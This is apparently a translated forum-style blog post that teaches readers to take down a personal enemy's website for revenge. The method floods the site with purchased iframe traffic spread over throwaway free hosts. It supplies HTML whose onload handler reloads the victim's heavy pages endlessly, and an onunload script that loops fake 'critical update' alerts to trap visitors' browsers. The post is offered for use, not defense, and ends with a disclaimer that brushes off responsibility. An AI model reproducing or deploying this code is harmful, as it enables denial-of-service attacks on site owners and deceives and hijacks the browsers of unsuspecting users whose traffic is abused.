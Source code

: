 ```yaml
---
title: Kill Your Neighbor With a Shovel
abstract: "iframe traffic, browser abuse, and petty revenge"
date: '2024-02-17'
draft: false
slug: kill-your-neighbor-with-a-shovel
---
```


For quite a long time, an interesting thought about alternative ways of using iframe traffic has been wandering around in my head, and now, finally, it has fermented into the following article. Light, clamp, scalpel, the lab work begins :yes2:

Probably many of you are familiar with the desire (not the best in terms of the impact on karma :blink: ) to take revenge on some jerk who screwed you over/scammed you, etc... Let's say you know the villain's website, what can you do with it?  
Well, firstly, it is possible to hack it purely theoretically, and if you have the right hands, then with your own, or you can order a professional to hack it.  
Secondly, it's to fucking kill the bastard.  
So, in the absence of specialized knowledge, such "self-satisfaction" will cost a pretty penny. We will not talk about the prices today, but they are definitely not small.

Today I will tell you how you can do something nasty with your own hands, without stepping on the rake of the law.  
For this we will need about ten free hosts registered by ourselves, preferably on different domains, a little bit of writing and actually iframe traffic, which can be bought for pennies if you really want to.

Now about how it all works. Firstly, this method can only organize http GET DOS, at least this is what first comes to mind. We select resource-intensive scripts on the victim's server (these can be search queries on the site, output of pages with a large number of elements, preferably generated by scripts, etc.) and start draining traffic to them. BUT, if you just stupidly pour a frame, then it will turn out to be not profitable at all, because you will have to really fork out for such a flow.

### Task:

1. We need to somehow use traffic more productively
2. It is necessary to increase the quality of the iframe in relation to our task

### Solution:

So the first thing that comes to my mind is a stupid parallelization of one iframe stream into dozens of such streams, which allows you to get from 1k iframe traffic about 10–20k real visits to the victim's site.  
Everything is simple, but we will go further, for this we will use the iframe tag method as onLoad in addition to parallelization of streams.

Let's write such a simple script:

```html
<iframe src="victim.html" onload="this.src='victim.html'"></iframe>
```

It allows the victim to reload the page again after it finishes loading, and so on until you get tired of it.  
Well, now we have a page on the freehost containing such frames, set on the resource-intensive scripts of the victim. That's it! We can start draining traffic and rejoice at the site lying down.

But let's not rush and save the money. Now we will try to get the maximum return on the money spent. So, I think it is obvious that the longer the victim's site pages are reloaded, the more loaded their server will be with the same purchased iframe stream. There is a concept of "traffic lifetime" or "surfer session duration" which determine the time until the tab/window with the frame on our page is open. Believe me, we can significantly increase this time, though with a rather crude method.

Let's look at the code below:

```html
<html>
  <body onunload="alert_block()">
    <script>
      function alert_block() {
        while (1) {
          alert('Внимание! Выполнятеся критическое обновление! Вы не можете сейчас закрыть браузер.');
        }
      }
    </script>
    <iframe src="victim.html" onload="this.src='victim.html'"></iframe>
  </body>
</html>
```

As you have already noticed, in addition to the hellish frame, additional scripts have appeared that use the onUnLoad event for the `<body>` tag. They allow us to display message boxes to the user with information that at the moment they cannot close the browser because it is being updated.

With all this, 80% of users will not be able to do anything with the browser, because native methods of working with it will be reduced to stupidly poking at the "OK" button. It will be easier to open another copy of the browser and at least forget about this one, which is what we need!

So today I told you about the potential opportunity to "take down" the ill-wisher's site with your own hands and not spend much money. This is where the lab work comes to an end, everything else is being finished with a file at home, and I am waiting for the lab reports in the form of posts.

**P.S.** Anything evil you are going to do after reading this article remains on your conscience (and don't forget about your karma :crazy:)
I just showed another opportunity to have fun online.

**Good luck!**
